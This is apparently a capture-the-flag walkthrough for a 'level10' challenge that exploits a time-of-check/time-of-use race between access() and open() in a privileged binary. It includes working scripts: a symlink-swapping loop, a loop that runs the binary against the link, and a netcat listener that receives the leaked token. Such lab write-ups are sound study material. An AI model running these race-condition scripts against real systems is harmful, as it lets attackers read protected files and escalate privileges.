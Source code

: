 ## Procedure:

1. **Examine your environment using Unix commands.**

   - `id` : Shows user and group identities that you have.
   - `pwd` : Displays the current directory you are in.
   - `ls -la` : Lists the files and their permissions in the current directory.

2. **After executing `ls -la`, you should notice two files: 'level10' executable and 'token'.**

   - The 'level10' file is an executable that checks if you have read rights on a file, then sends its contents to a server. 
   - The 'token' file holds the contents that you need access to.

3. **Analyze the details of the executable.**

   - Use the `strings level10` command to display readable sequences of characters in the executable. You will see that it uses 'access' then 'open'.
   - Understanding the `access` function is crucial. Refer to `man 2 access` function documentation to notice that using `access` to check if a user is authorized to open a file before actually doing so using `open` creates a security hole, due to the short time interval between checking and opening the file.

4. **Exploit the Time-of-Check Time-of-Use (TOCTTOU) loophole.**

   - Open three windows in your virtual machine.
   
   - In the first window, listen on the port 6969 with `netcat` using the command `nc -lk 6969`.

   - In the second window, you navigate to the `/tmp` directory and create a script (`symlink.sh`) that runs an infinite loop of creating and deleting a file, and creating a symbolic link to the `token` file.

        ```
        #!/bin/bash
        while true; do
            touch /tmp/link
            rm -f /tmp/link
            ln -s /home/user/level10/token /tmp/link
            rm -f /tmp/link
        done
        ```

   - In the third window, you create another infinite loop (`spam.sh`) that repeatedly triggers the `level10` executable on the `/tmp/link` file.

        ```
        #!/bin/bash
        while true; do
            /home/user/level10/level10 /tmp/link 127.0.0.1
        done
        ```

5. **Observe the exploit results.**

    - Pause both scripts (created in the second and third windows) after a few seconds and return to the first window, where you should see the contents of the `token` file printed.

## Final steps:

   - Use the retrieved token to log in as `flag10` user: `su flag10`.
   - Run `getflag` to get the password/token for the next level.

Remember, the aim of exploiting TOCTTOU is taking advantage of the delay between the time of check (when `access` is used) and the time of use (when `open` is used) to change the file that is accessed.